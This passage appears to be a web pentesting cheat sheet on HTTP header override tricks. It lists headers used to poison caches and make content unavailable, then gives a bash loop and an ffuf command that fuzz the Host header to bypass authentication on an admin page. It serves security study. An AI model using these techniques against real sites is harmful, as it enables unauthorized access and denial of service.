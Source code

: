 ### Override Headers

X-Forwarded-Host
X-HTTP-Host-Override
Forwarded
X-Host
X-Forwarded-Server
x-http-method-override: POST (overrides the method, check purge or head)
content-type: s4yhii (test for invalid header make unavailable a web or repo)
x-forwarded-scheme: http (make a content unavailable, combine with x-forwarded-host)

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020240122173845.png)

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020240122174017.png)


### Auth bypass via host header

- Change Host header to localhost to access admin areas
- Fuzz for different ipv4 ips.
```bash
for a in {1..255};do
    for b in {1..255};do
        echo "192.168.$a.$b" >> ips.txt
    done
done
```

```shell-session
ffuf -u http://IP:PORT/admin.php -w ips.txt -H 'Host: FUZZ' -fs 752
```

#### Exercise
